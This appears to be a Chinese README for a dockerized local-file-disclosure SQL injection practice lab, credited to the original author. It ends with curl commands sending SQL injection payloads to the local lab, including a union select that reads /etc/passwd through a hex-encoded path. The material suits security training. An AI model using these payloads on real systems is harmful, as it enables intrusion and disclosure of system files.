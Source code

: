 这是对`Manish Kishan Tanwar` 的 https://github.com/incredibleindishell/Local-file-disclosure-SQL-Injection-Lab/ 的docker化实现。

所有的功劳都归于原作者！我仅仅是为了方便自己测试和练手做了这个docker化尝试。

按正规docker化步骤，应该在dockerfile 里，用 wget 获得原版repo压缩包。但天朝自有国情啊... 这么做导致下载很不稳定，基本上每次都down不下来。反正内容也不多，我直接就放本地了。对这个攻击的描述请参见原作者：《**[local file disclosure using SQL Injection.pdf](https://github.com/incredibleindishell/Local-file-disclosure-SQL-Injection-Lab/blob/master/local%20file%20disclosure%20using%20SQL%20Injection.pdf)**》

使用：`docker-compose up -d `

### 题外话

在练习使用curl的丰富功能。作者描述的数据提交，尝试用curl测试了一遍，大致如下，也记录一下。

```bash
curl -d "image=1 order by 4--&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image=1&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image=1 order by 4--&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image=1 order by 4--&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image=1337 union select 1,2,0x2f6574632f706173737764--&image_download=Download" http://localhost:8080/

curl  -s -X POST -v -d  "image[]=1&image_download=Download" http://localhost:8080/

```
